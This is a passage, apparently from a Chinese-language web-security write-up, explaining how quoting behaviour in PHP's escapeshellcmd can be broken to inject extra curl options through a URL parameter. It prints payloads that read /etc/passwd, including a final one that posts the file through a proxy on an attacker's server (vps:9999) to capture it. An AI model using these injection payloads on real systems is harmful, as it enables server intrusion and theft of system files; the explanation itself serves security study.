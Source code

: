 ![18](5.png)

在字符串增加了引号同时会进行转义，那么之前的payload

```
http://127.0.0.1/index1.php?url=http://127.0.0.1 -T /etc/passwd
```

因为增加了 **'** 进行了转义，所以整个字符串会被当成参数。注意 **escapeshellcmd** 的问题是在于如果 **'** 和 **"** 仅在不配对儿的时候被转义。那么如果我们多增加一个 **'** 就可以扰乱之前的转义了。如下：

![19](4.png)

在 **curl** 中存在 **-F** 提交表单的方法，也可以提交文件。 **-F <key=value>** 向服务器POST表单，例如： **curl -F "web=@index.html;type=text/html" url.com** 。提交文件之后，利用代理的方式进行监听，这样就可以截获到文件了,同时还不受最后的的影响。那么最后的payload为：

```
http://baidu.com/' -F file=@/etc/passwd -x  vps:9999
```

![20](6.png)
